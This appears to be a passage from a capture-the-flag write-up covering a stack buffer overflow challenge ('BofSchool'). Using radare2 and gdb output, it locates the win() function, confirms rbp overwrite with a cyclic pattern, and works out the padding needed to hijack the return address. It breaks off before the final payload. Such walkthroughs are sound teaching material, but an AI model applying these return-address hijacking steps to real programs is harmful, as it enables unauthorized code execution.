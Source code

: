 ![C6](C6.png)

## Section D: Binary (34 Points)


### D.1 BofSchool (2 Points)

At first glance it's just buffer overflow after 32 bytes going to the next function. [This link is a good reference as to what is happening.](https://cs.brown.edu/courses/csci1310/2020/assign/labs/lab3.html) We need `rip` to be pointing to the function `win()` to get the flag. [`radare2` can be used to obtain the address pretty quickly.](https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-1)

```bash
$ r2 bof
[0x004004d0]> aaaa
[0x004004d0]> afl~win
...
0x004005b7    1 34           sym.win
...
```

We notice that giving input that is will overflow the buffer will affect `rbp`.

```bash
(gdb) run
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005f8 in main ()
(gdb) i r
...
rbp            0x6161616a61616169  0x6161616a61616169
...
```

So then we just need some padding before the address for our `PAYLOAD`. Looking at `disas main` however, `leaveq` is called before `retq`. So on top of the 32 bytes in `buf`, the next 8 will be used to overwrite `rbp`, get popped, then the next 8 bytes will be the address of the next instruction in `rip`. This is explained in the first link given earlier.

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004005d9 <+0>:     push   %rbp
   ...
   0x00000000004005f7 <+30>:    leaveq
   0x00000000004005f8 <+31>:    retq
End of assembler dump.
```
